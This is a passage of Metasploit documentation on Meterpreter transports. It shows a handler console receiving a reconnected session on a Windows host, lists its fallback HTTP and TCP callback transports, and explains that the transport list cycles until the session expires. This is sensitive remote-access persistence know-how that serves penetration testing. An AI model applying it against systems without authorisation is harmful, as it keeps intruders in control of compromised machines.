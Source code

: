 ```bash
+ -- --=[ 426 payloads - 37 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

... snip ...

[*] 10.1.10.40:46457 (UUID: 8e97549ed2baf6a8/x86_64=2/windows=1/2015-06-02T09:56:05Z) Attaching orphaned/stageless session ...
[*] Meterpreter session 1 opened (10.1.10.40:5105 -> 10.1.10.40:46457) at 2015-06-02 21:03:55 +1000

msf exploit(handler) > sessions -l

Active sessions
===============

  Id  Type                   Information                           Connection
  --  ----                   -----------                           ----------
  1   meterpreter x86/win32  WIN-S45GUQ5KGVK\OJ @ WIN-S45GUQ5KGVK  10.1.10.40:5105 -> 10.1.10.40:46457 (10.1.10.35)

msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:05

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
          tcp://10.1.10.40:5005                                                                                  300        3600         10
          tcp://10.1.10.40:6000                                                                                  300        3600         10
```

The session is back up and running as if nothing had gone wrong.

In the case where Meterpreter is configured with only a single transport mechanism, this process still takes place. Meterpreter's transport list implementation is a cyclic linked-list, and once the end of the list has been reached, it simply starts from the beginning again. This means that if there's a list of one transport then Meterpreter will continually attempt to use that one transport until the session expires. This works for both `TCP` and `HTTP/S`.

For important detail on network resiliency, please see the [reliable network communication documentation](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Reliable-Network-Communication).

## Supported Meterpreters

The following Meterpreter implementations currently support the transport commands:


  [Timeout documentation]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Timeout-Control
  [Reliable Network documentation]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Reliable-Network-Communication